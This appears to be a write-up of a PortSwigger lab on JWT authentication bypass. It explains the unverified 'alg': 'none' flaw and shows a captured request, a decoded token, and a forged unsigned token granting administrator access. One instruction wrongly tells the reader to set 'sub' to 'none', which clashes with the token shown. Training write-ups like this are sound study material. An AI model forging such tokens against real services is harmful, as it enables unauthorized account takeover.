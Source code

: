 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c31c2925-866c-4e46-a78c-5a6fd3078013)

## Overview :

 Among other things, the JWT header contains an `alg` parameter. This tells the server which algorithm was used to sign the token and, therefore, which algorithm it needs to use when verifying the signature.

```json
{
    "alg": "HS256",
    "typ": "JWT"
}
```

This is inherently flawed because the server has no option but to implicitly trust user-controllable input from the token which, at this point, hasn't been verified at all. 

JWTs can be signed using a range of different algorithms, but can also be left unsigned. In this case, the alg parameter is set to none, which indicates a so-called "**unsecured JWT**". 

## Solution :

Login as wiener using the provided credentials.

In the *HTTP History* tab, we can see these 3 requests have JWT in it.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/82410244-2b36-4b4b-950a-ef7b258a164e)

Send the following request to repeater tab,

```http
GET /my-account?id=wiener HTTP/2
Host: 0a9e00320421ca86804b30ff00a40044.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e00320421ca86804b30ff00a40044.web-security-academy.net/login
Cookie: session=eyJraWQiOiIzN2I4MjNkMy1hNzc1LTRiM2UtYmY5ZC05MjQwNjYxMTMxYzAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzMzk5OH0.rT0e0nC2JMnNtqWc-s1ueksp4lRQuzUo8yN9darPvbC2vfwsyMG_zTv08YewscJlTjRkPyOMzDV0IFonMHhYoXB1cY7YuJ9Wyhv6lUyDiPNQmvB5O1RkRjwW4NGOGpo2_hEJlg7YH60KbfKFclCwP3GYS49dGotWe0whq-SgI-NA4NNDibjY6G7R1hUk8m9sukWuRU8d9L95lxL2KN-rTPNeWFi8yoWVaSfEFkUUH8fUznauMmkod-xVAapnrKRL6AYhWaHscxYRNCTN6Hx5jBdYardVQGVFepejXpdpcujZyn0_RnZZ_8aMdgYBRxJOEzBgit2W8m3LNJIB9UJrgw
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

Decode the JWT using [jwt.io](https://jwt.io).

**Header -**

```json
{
  "kid": "37b823d3-a775-4b3e-bf9d-9240661131c0",
  "alg": "RS256"
}
```

**Payload -**

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1695633998
}
```

Change the `"alg" : "RS256"` to `"alg" : "none"`  & also change the `"sub" : "RS256"` to `"sub" : "none"`.

The following is the resulting token.

```
eyJraWQiOiIzN2I4MjNkMy1hNzc1LTRiM2UtYmY5ZC05MjQwNjYxMTMxYzAiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTU2MzM5OTh9.
```
> Note that the payload part is trailing with  a **.** Which indicates that the token is not signed since **none** algorithm > is used.

Replace the original JWT token with the one that we created & forward the request. 

Now we have an option to access the admin panel.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e39cd05d-7bd0-41b8-aa32-1128e0a92b24)

Delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7c0030b1-2a55-449a-afee-76d53e0282c8)
